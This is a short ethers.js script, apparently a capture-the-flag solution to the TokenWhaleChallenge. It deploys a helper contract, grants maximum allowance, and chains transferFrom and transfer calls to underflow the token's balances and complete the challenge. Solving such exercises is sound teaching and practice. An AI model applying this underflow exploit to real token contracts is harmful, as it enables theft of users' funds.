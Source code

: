 // ethers js

const provider = new ethers.providers.JsonRpcProvider($rpcUrl)
const signer = provider.getSigner()
const address = await signer.getAddress()
const contract1 = $contracts["TokenWhaleChallenge"]
const contract2 = $contracts["Player"]
const factory1 = new ethers.ContractFactory(contract1.abi, contract1.evm.bytecode, provider.getSigner())
const factory2 = new ethers.ContractFactory(contract2.abi, contract2.evm.bytecode, provider.getSigner())

const player = await factory2.deploy()
const token = await factory1.deploy(player.address)

await player.setToken(token.address)
console.log(`Player: ${(await token.balanceOf(player.address)).toString()}`)
console.log(`Address: ${(await token.balanceOf(address)).toString()}`)
await token.approve(player.address, ethers.constants.MaxUint256, { gasLimit: 1000000 })
await player.approve({ gasLimit: 1000000 })
await token.transferFrom(player.address, player.address, 900, { gasLimit: 1000000 })
await token.transfer(player.address, 10000000, { gasLimit: 1000000 })
console.log(`Result: ${(await token.isComplete()).toString()}`)
console.log(`Player: ${(await token.balanceOf(player.address)).toString()}`)
console.log(`Address: ${(await token.balanceOf(address)).toString()}`)
